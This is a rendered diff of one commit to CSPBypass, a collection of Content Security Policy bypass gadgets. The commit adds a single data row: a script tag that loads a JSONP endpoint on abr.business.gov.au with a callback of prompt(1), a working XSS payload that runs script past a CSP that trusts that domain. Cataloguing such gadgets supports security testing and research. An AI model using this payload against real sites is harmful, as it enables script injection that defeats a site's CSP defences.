

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
abr.business.gov.au

```diff
--- a/data.tsv
+++ b/data.tsv
+row 4: abr.business.gov.au <script src="https://abr.business.gov.au/json/AcnDetails.aspx?callback=prompt(1)//"></script>
```
Also changed, not shown: 1 other file.
